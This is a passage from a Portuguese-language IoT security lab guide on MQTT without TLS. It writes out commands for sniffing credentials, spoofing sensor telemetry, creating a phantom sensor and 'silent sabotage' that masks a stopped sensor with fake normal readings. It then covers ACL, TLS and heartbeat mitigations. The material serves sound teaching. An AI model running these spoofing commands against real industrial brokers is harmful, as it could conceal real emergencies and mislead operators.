[DASHBOARD] [OK] sensores/camara1/umidade: 12.5C (token valido)
```

**Pergunta para refletir:** por que o dashboard mostra `12.5C` para uma leitura de *umidade* em `%`? (Dica: olhe o `on_message` do `aplicacao.py` — ele imprime `{valor}C` fixo, sem ler o campo `unidade` do JSON. A aplicação confia no valor sem validar a consistência do payload.)

### Parte B — Sensor fantasma (telemetria de um dispositivo que não existe)

Crie um sensor **camara2** — que a planta nunca instalou:

```bash
mosquitto_pub -h 172.30.234.55 -p 1883 -u sensor_camara1 -P sensor_senha_2024 \
  -t sensores/camara2/temperatura \
  -m '{"sensor":"camara2","metrica":"temperatura","valor":23.1,"unidade":"C","token":"tok_sensor_camara1_7f3a9c","timestamp":1}'
```

No dashboard:

```text
[DASHBOARD] [OK] sensores/camara2/temperatura: 23.1C (token valido)
```

**Pergunta para refletir:** a equipe de monitoramento passa a ver uma "câmara 2" que não existe. Com um sensor fantasma publicando valores normais por semanas, que decisões erradas a operação pode tomar?

### Parte C — Sabotagem silenciosa (mascarar a ausência do sensor real)

Agora o ataque mais perigoso: **sem gerar alerta nenhum**.

1. Pare o sensor legítimo (Ctrl+C no terminal do sensor).
2. No dashboard, as leituras de `sensores/camara1/temperatura` **param de chegar** — mas isso logo chamaria atenção da operação.
3. O atacante **assume a identidade do sensor**: publique leituras normais continuamente no tópico do sensor, usando as credenciais roubadas:

```bash
while true; do
  mosquitto_pub -h 172.30.234.55 -p 1883 -u sensor_camara1 -P sensor_senha_2024 \
    -t sensores/camara1/temperatura \
    -m '{"sensor":"camara1","metrica":"temperatura","valor":22.4,"unidade":"C","token":"tok_sensor_camara1_7f3a9c","timestamp":'"$(date +%s)"'}'
  sleep 5
done
```

No dashboard, o fluxo de leituras continua **normal** — como se o sensor real estivesse vivo:

```text
[DASHBOARD] [OK] sensores/camara1/temperatura: 22.4C (token valido)
[DASHBOARD] [OK] sensores/camara1/temperatura: 22.4C (token valido)
```

**O ponto didático:** o sensor físico pode ter sido desligado, roubado ou estar reportando errado — e a operação não percebe, porque as leituras "continuam chegando". Em um ataque real, o atacante ainda **aumentaria a temperatura real** para níveis críticos sem que ninguém veja, substituindo os valores reais por leituras normais falsas.

4. (Opcional) Combine com a Fase 3: enquanto o "sensor fantasma" publica 22.4 °C, o atacante **aumenta a temperatura real** publicando valores altos em outro intervalo — a operação vê apenas o fluxo normal.

**Por que este ataque funciona (recapitulando o que você já viu):**
- **Sem ACL**: o usuário `sensor_camara1` (credencial roubada) pode publicar em **qualquer** tópico — inclusive `sensores/camara2/...`, que não pertence a ele.
- **Token único e fixo**: o mesmo token serve para todos os tópicos — o dashboard não liga o token a um sensor ou tópico específico.
- **Dashboard sem validação de origem/consistência**: não confere se o sensor existe, se a unidade bate com a métrica, nem se o valor é plausível para o contexto.
- **Confiança cega**: tudo que chega com token válido é exibido como legítimo.

**Mitigações recomendadas (para o time de defesa):**
1. **ACL por tópico** (o `conf/mosquitto.acl` do workshop já mostra): `sensor_camara1` só pode publicar em `sensores/camara1/#` — os ataques B e C morrem aqui, e o A fica limitado a tópicos da própria câmara.
2. **Validação de origem na aplicação**: o dashboard deve conhecer os sensores cadastrados (câmara 1 existe; câmara 2 não) e a faixa plausível de cada métrica.
3. **Token por sensor + tópico**: token distinto por dispositivo e validado contra o tópico publicado (o token da câmara 1 não valida em `sensores/camara2/...`).
4. **Heartbeat e watchdog**: a aplicação deve detectar a ausência de leituras de um sensor (ex.: nenhuma publicação em 30 s → alarme de sensor offline) — a sabotagem silenciosa perde o efeito.
5. **TLS** (fase futura): sem o sniffing, o atacante não obtém credenciais nem token para começar.

Ao terminar as Partes A, B e C, você terá demonstrado o espectro completo do ataque MQTT sem TLS: **ler credenciais → aprender o formato → injetar valores extremos (item 4) → criar telemetria falsa e mascarar a ausência do sensor (este desafio)**.

---

## 6. Fase 4: Mitigação e Hardening (explicação)

> [!IMPORTANT]
> Esta fase é **explicativa** neste workshop (o laboratório roda sem TLS de propósito). O arquivo `conf/mosquitto-hardening.conf` e `conf/mosquitto.acl` já estão incluídos para você **estudar e experimentar** — a configuração completa com TLS (certificados, porta 8883) será tema de um próximo workshop.

### 6.1 ACL: controle de acesso por tópico

O Mosquitto permite limitar o que cada usuário pode ler/escrever em cada tópico via `acl_file`:

```conf
# conf/mosquitto.acl (ja incluido no workshop)
# Dashboard/aplicacao: somente leitura em todos os sensores
user app_dashboard
topic read sensores/#

# Sensor: somente publicacao no proprio topico
user sensor_camara1
topic write sensores/camara1/#

# Qualquer outro usuario autenticado (ex.: atacante com credencial
# roubada) nao tem permissao de publicacao em nenhum topico,
# pois nao ha regra default e o Mosquitto nega por padrao.
```

Para **ativar** no seu lab (opcional):

```bash
# 1. Troque o arquivo de config usado no docker-compose.yml:
#    ./conf/mosquitto.conf  ->  ./conf/mosquitto-hardening.conf
# 2. Reinicie o broker:
docker compose restart mosquitto
```

Efeito esperado:

- O `atacante.py` (Fase B) passa a receber `not authorised` ao tentar publicar em `sensores/camara1/temperatura`? **Não** — ele usa a credencial `sensor_camara1`, que tem permissão de escrita no próprio tópico. A ACL bloqueia o atacante de **escrever em outros tópicos**, mas **não resolve o problema central** (credential sniffing) — só o TLS resolve.
- **Lição:** ACL limita o *blast radius* (um sensor roubado não compromete os outros sensores), mas não protege a credencial em si.

### 6.2 O que vem depois (TLS)

A correção de verdade para o cenário deste workshop:

- Habilitar o listener **8883** com `cafile`, `certfile`, `keyfile` no Mosquitto.
- Clientes conectam com `mqtts://` (paho-mqtt: `client.tls_set(...)`).
- Com TLS, o `tcpdump`/`tshark` mostra apenas **bytes criptografados** — nem usuário/senha, nem token, nem os valores de temperatura são legíveis.
- Tópico futuro: "Workshop 05 — MQTT com TLS e certificados".

---

## 7. Lições Aprendidas

1. **MQTT sem TLS é plaintext.** O pacote `CONNECT` carrega **usuário e senha em texto claro**, e os `PUBLISH` carregam os payloads JSON completos (incluindo tokens fixos).
2. **Autenticação não é confidencialidade.** `allow_anonymous false` + `password_file` dá a impressão de segurança, mas a credencial que trafega em claro pode ser reutilizada por qualquer observador.
3. **Token fixo no payload é chave reutilizável.** "Proteger" o dado com um token embutido no próprio payload não protege nada: o atacante captura o token junto com os dados.
4. **Sem ACL, o perímetro é o broker.** Qualquer usuário autenticado publica em qualquer tópico — a injeção não se limita ao tópico do sensor roubado.
5. **A captura é passiva e silenciosa.** O broker e o sensor não percebem que o tráfego foi observado; a injeção também é indistinguível de uma publicação legítima (mesmo usuário, mesmo token, mesmo tópico).
6. **O impacto vai além de dados.** Manipular telemetria pode causar paradas industriais, alarmes falsos ou **mascarar emergências reais** (sabotagem silenciosa).
7. **TLS resolve o problema na raiz.** Com TLS (porta 8883), usuário/senha, token e payload ficam ilegíveis para o observador — e a injeção passa a exigir credenciais/certificados que não podem ser lidos na rede.

> **🔜 Laboratórios Futuros:**
> - Configuração de TLS no Mosquitto (porta 8883, CA, certificados cliente/servidor) e comparação de capturas antes/depois.
> - ACL avançada com `pattern` (regras por usuário com `%u`) e `per_listener_settings`.
> - Ataque MITM em MQTT e detecção de anomalias de telemetria (ML básico em séries temporais).

---

## 8. Atividade Extra: Análise no Wireshark

Leve a captura para uma máquina com **Wireshark** instalado:

1. **Capture com tcpdump** (com o sensor rodando e após reiniciá-lo uma vez para pegar o CONNECT):
   ```bash
   sudo tcpdump -i eth0 -s 0 -w mqtt.pcap "tcp port 1883"
   ```
2. **Abra o arquivo** no Wireshark: `Arquivo > Abrir` (ou `wireshark mqtt.pcap`).
3. **Filtre o tráfego MQTT:** aplique o filtro `mqtt` — fica só o tráfego da porta 1883.
4. **Estude a anatomia dos pacotes:**
   - O pacote `CONNECT`: campos **User Name** (`sensor_camara1`) e **Password** (`sensor_senha_2024`) visíveis na árvore do protocolo MQTT.
   - Os pacotes `PUBLISH`: **Topic** (`sensores/camara1/temperatura`) e **Message** (o JSON com o token e o valor).
5. **Siga o fluxo completo:** clique com o botão direito no primeiro pacote da sessão → **Follow > TCP Stream** — o Wireshark remonta a conversa inteira, incluindo o JSON.
6. **Identifique a injeção:** no `.pcap`, a mensagem com `"valor": 99.5` publicada pelo atacante tem exatamente a mesma estrutura das legítimas — não há como distingui-las sem TLS.
7. **Reflita:** se o broker usasse TLS, o Wireshark mostraria apenas bytes aparentemente aleatórios na porta 8883.

### Como fazer na prática

| Ferramenta | Comando / Ação | Resultado |
|------------|----------------|-----------|
| **tcpdump** (Kali) | `sudo tcpdump -i eth0 -A -s 0 "tcp port 1883" \| grep -E "sensor_\|tok_"` | Lê as credenciais em texto claro no CONNECT |
| **tshark** (Kali) | `tshark -i eth0 -f "tcp port 1883" -Y "mqtt.msgtype==3" -T fields -e mqtt.topic -e mqtt.msg` | Lista tópicos e payloads das publicações |
| **mosquitto_sub** (Kali) | `mosquitto_sub -h IP -u sensor_camara1 -P sensor_senha_2024 -v -t "sensores/#"` | Assina o tópico como leitor (igual ao atacante) |
| **mosquitto_pub** (Kali) | `mosquitto_pub -h IP -u sensor_camara1 -P sensor_senha_2024 -t sensores/... -m '{...}'` | Injeta payload falso |
| **Wireshark** | Filtro `mqtt` + Follow > TCP Stream | Sessão remontada com credenciais e JSON legíveis |

> **Dica de estudo:** compare a captura deste laboratório (porta 1883, texto claro) com uma futura captura TLS (porta 8883) — a diferença visual no Wireshark é o resumo do porquê este workshop existe.

---

## Troubleshooting

| Problema | Solução |
|----------|---------|
| `docker: command not found` no servidor | Instalar Docker e adicionar usuário ao grupo `docker`. |
| Container não inicia | `docker logs laboratorio-mqtt-broker` e `docker compose ps -a` para ver o erro. |
| `Error: Unable to open pwfile "/mosquitto/config/mosquitto.passwd"` | O passwd foi gerado como root: `chmod 644 conf/mosquitto.passwd && docker compose restart mosquitto`. |
| Porta 1883 já em uso | `docker compose down` e verifique `ss -tlnp \| grep 1883`; outro serviço pode estar ocupando a porta. |
| `nc: Connection refused` na porta 1883 | Verificar `docker compose ps`; conferir se o firewall libera a porta (`sudo ufw allow 1883`). |
| Dashboard em `Restarting` com erro `Temporary failure in name resolution` | Erro transiente de DNS na primeira subida; rode `docker compose up -d` de novo (o compose reinicia o dashboard sozinho). |
| `docker logs` do dashboard vazio | O stdout do Python é bufferizado quando não é TTY; o Dockerfile já define `PYTHONUNBUFFERED=1` — se modificou a imagem, reconstrua: `docker compose up -d --build dashboard`. |
| tshark: `Promiscuous mode not supported on the "any" device` | Usar a interface real: `ip -brief address` para descobrir e trocar `-i any` por `-i eth0`. |
| tshark: campo inválido (`mqtt.payload`) | A versão do tshark usa `mqtt.msg` para o payload; use os campos do Passo 3.3. |
| tshark sem permissão | Adicionar usuário ao grupo `wireshark` (`sudo usermod -aG wireshark kali`) e relogar, ou usar `sudo tshark`. |
| `mosquitto_pub: not found` | `sudo apt install -y mosquitto-clients`. |
| Atacante Fase A não captura nada | O sensor precisa estar **rodando** durante a Fase A; confira `ps aux \| grep sensor.py`. |
| `not authorised` (código 5) no log do broker | O cliente usou credenciais erradas ou sem credenciais (`allow_anonymous false`). Use as credenciais capturadas: `sensor_camara1` / `sensor_senha_2024`. |
| Sensor conecta mas não publica | O `token` no JSON precisa ser `tok_sensor_camara1_7f3a9c` (o dashboard rejeita token diferente). |
| Broker em restart loop (exit 13) | Conferir permissões dos volumes e do passwd: `chmod 644 conf/mosquitto.passwd`, `docker compose up -d`. Se persistir, `docker compose down && docker compose up -d --build`. |

---

## Anexo A: O que é o MQTT?

O **MQTT (Message Queuing Telemetry Transport)** é um protocolo de mensageria leve, criado para redes de baixa largura de banda e dispositivos com pouca capacidade (IoT). Funciona no modelo **publish/subscribe**:

- **Broker**: o servidor central que recebe e roteia as mensagens (neste workshop, o Mosquitto).
- **Publisher**: quem publica dados em um tópico (o sensor).
- **Subscriber**: quem assina um tópico e recebe os dados (o dashboard, e também o atacante!).
- **Tópico**: o "endereço" da mensagem, hierárquico (`sensores/camara1/temperatura`). Coringas: `sensores/#` (todos os subníveis) e `sensores/+/temperatura` (um nível qualquer).
- **QoS (Quality of Service)**: 0 (no máximo uma vez — sem confirmação), 1 (pelo menos uma vez) e 2 (exatamente uma vez). Neste lab usamos QoS 0, o mais comum em telemetria barata.

**Pacotes MQTT que você vai encontrar na captura:**

| Tipo | Nome | Função | O que vaza sem TLS |
|------|------|--------|--------------------|
| 1 | `CONNECT` | Inicia a sessão | **Usuário e senha em texto claro** |
| 2 | `CONNACK` | Broker confirma conexão | — |
| 3 | `PUBLISH` | Publica mensagem | **Tópico + payload JSON completo (inclui o token)** |
| 8 | `SUBSCRIBE` | Assina um tópico | Tópico assinado |
| 9 | `SUBACK` | Broker confirma assinatura | — |
| 14 | `DISCONNECT` | Encerra a sessão | — |

**Por que o MQTT é tão usado em IoT?** É leve (cabeçalhos pequenos), assíncrono (o publisher não precisa conhecer o subscriber) e suporta bilhões de dispositivos. **O problema:** o protocolo foi desenhado para eficiência, não para segurança — **por padrão, tudo trafega em texto claro**; TLS (porta 8883) é uma camada opcional que quase sempre é deixada de lado em projetos baratos. E é exatamente isso que este workshop demonstra.

---

<p align="right">
  <sub></sub><br>
  
</p>
